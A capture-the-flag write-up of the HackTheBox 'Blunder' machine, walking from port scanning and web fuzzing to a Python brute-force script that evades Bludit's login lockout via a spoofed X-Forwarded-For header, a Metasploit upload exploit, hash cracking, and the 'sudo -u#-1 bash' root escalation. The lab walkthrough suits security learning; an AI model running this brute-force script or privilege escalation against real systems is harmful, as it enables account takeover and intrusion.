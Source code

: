 ```yaml
---
title: Blunder Writeup - Machine
author: Sujit Suryawanshi
date: 2020-07-29 14:10:00 +0800
categories: [Writeup, HackTheBox]
tags: [hackthebox, htb, blunder]
---
```


<h3><strong><span style="color:#ff5555">Blunder - HackTheBox</span></strong></h3>
---

![Desktop View]({{ "/assets/img/htb-machines/blunder-main.png" | relative_url }})

---

<strong><span style="color:#ff5555">Introduction</span></strong>

---

Blunder machine released on 30 May 2020 on HackTheBox platform and created by [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858).
It's nice machine which hosted CMS named Bludit. So let's move forward and p4wn this awesome box.
**This blog is meant for educational purposes only.**

---

<strong><span style="color:#ff5555">Port & Service Enumeration</span></strong>

---

<p><code class="language-plaintext highlighter-rouge">root@kali:~sudo nmap -sV -sC -T4 10.10.10.191</code></p>

![Desktop View]({{ "/assets/img/htb-machines/blunder-nmap.png" | relative_url }})

We used -sC for Default Script, -sV Service Version Scan, -p- for All Ports and -T4 for Timing. As you can see there are two ports open that is port 21 and 80. Port 21 was ftp but closed and port 80 has hosted webserver which has Apache httpd 2.4.41 also the OS was Ubuntu, so we moved towards port 80 for further enumeration.

---

<strong><span style="color:#ff5555">Web Enumeration</span></strong>

---

After opening the the website in browser we found that it was using Bludit CMS.

![Desktop View]({{ "/assets/img/htb-machines/blunder-cms.png" | relative_url }})

Continuing to enumeration we started fuzzing the web directory using Ffuf tool.


![Desktop View]({{ "/assets/img/htb-machines/blunder-ffuf.png" | relative_url }})

After doing some web fuzzing, We found admin panel of Bludit CMS hosted on url <http://10.10.10.191/admin/>

![Desktop View]({{ "/assets/img/htb-machines/blunder-cms-admin.png" | relative_url }})

As we don't know the username and password of this admin panel, We continued fuzzing on website using Ffuf and some common extensions like php, txt etc.

![Desktop View]({{ "/assets/img/htb-machines/blunder-ffuf-1.png" | relative_url }})

After some fuzzing we got one todo.txt file hosted on webserver which has one note "Inform fergus that the new blog needs images - PENDING"

So here we got the one of the user's username that is "fergus"

We found the user but we don't know the password so, For password we used one tool called "CeWl".

So basically what this tool does, It generates wordlist from any url/webpage.
In our case, We used this tool on webpase and generated wordlist.

cewl http://10.10.10.191/

![Desktop View]({{ "/assets/img/htb-machines/blunder-cewl.png" | relative_url }})

Nice, CeWl generated more than 300 passwords.
Now we have username and wordlist of passwords, Let's move forward.

After doing some google about Bludit CMS, We found that Bludit CMS was vulnerable for password bruteforce attack.

Checking one [issue](https://github.com/bludit/bludit/pull/1090) on Github about Bludit, We got one python script to bruteforce the password.

To bruteforce the password We needed to modify the script.

```python
#!/usr/bin/env python3
import re
import requests
#from future import print_function

def open_ressources(file_path):
    return [item.replace("\n", "") for item in open(file_path).readlines()]

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = open_ressources('/home/sujit/Desktop/HTB/Blunder/pass.txt')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break

```

In above code, I used pass.txt file as wordlist and username as "fergus"

![Desktop View]({{ "/assets/img/htb-machines/blunder-bruteforce-1.png" | relative_url }})

After bruteforce, We got the password of user "fergus" as "RolandDeschain"

![Desktop View]({{ "/assets/img/htb-machines/blunder-bruteforce-2.png" | relative_url }})

Now we have both username and password.
Let's login with username as “fergus” and password as  “RolandDeschain”

![Desktop View]({{ "/assets/img/htb-machines/blunder-bludit-login.png" | relative_url }})

We successfully logged in into Bludit CMS.

---

<strong><span style="color:#ff5555">Initial Shell</span></strong>

---

After some Google, I found that there is file upload vulnerability available for Bludit CMS and also there is metasploit module available for the same.

Name of the Metasploit module : linux/http/bludit_upload_images_exec

Lets fire up metasploit and use the above exploit.

We need to set some required data (option) for this exploit.

![Desktop View]({{ "/assets/img/htb-machines/blunder-metasploit.png" | relative_url }})

Here I set BLUIDITPASS, BLUIDITUSER, RHOSTS, LHOST options respectively to exploit the vulnerability.

After setting up options I ran exploit command to run the exploit and voila!!!, We got initial shell..

![Desktop View]({{ "/assets/img/htb-machines/blunder-metasploit-1.png" | relative_url }})

---

<strong><span style="color:#ff5555">Privilege Escalation: User</span></strong>

---

Now let's start enumeration to get user.

While doing enumeration, I checked some documentation of Bludit CMS in which I found that the CMS had database folder.

![Desktop View]({{ "/assets/img/htb-machines/blunder-cms-structure.png" | relative_url }})

In this database folder I got one PHP file named users.php which contains password hash of another user “hugo”

![Desktop View]({{ "/assets/img/htb-machines/blunder-password-hash.png" | relative_url }})

After using online password cracker, I got "Password120" as password for user “hugo”

![Desktop View]({{ "/assets/img/htb-machines/blunder-password-hash-1.png" | relative_url }})

After login using above password I was able to get user successfully.

![Desktop View]({{ "/assets/img/htb-machines/blunder-user.png" | relative_url }})

Here we got user.txt.

---

<strong><span style="color:#ff5555">Privilege Escalation: Root</span></strong>

---

Now it's time for root.

I ran sudo -l to list out what is allowed to run as sudo without password

![Desktop View]({{ "/assets/img/htb-machines/blunder-privesc.png" | relative_url }})

Here the user was allowed to run /bin/bash without password.

I used sudo -u#-1 bash command to get into root.

The above command will trigger -1 user which is not there so we will get a root shell directly.

You'll get more information about this PrivEsc vulnerability [here](https://www.sudo.ws/alerts/minus_1_uid.html).

![Desktop View]({{ "/assets/img/htb-machines/blunder-root.png" | relative_url }})

And here we rooted Blunder successfully.

**Thanks for reading this writeup and all suggestions are welcome.**
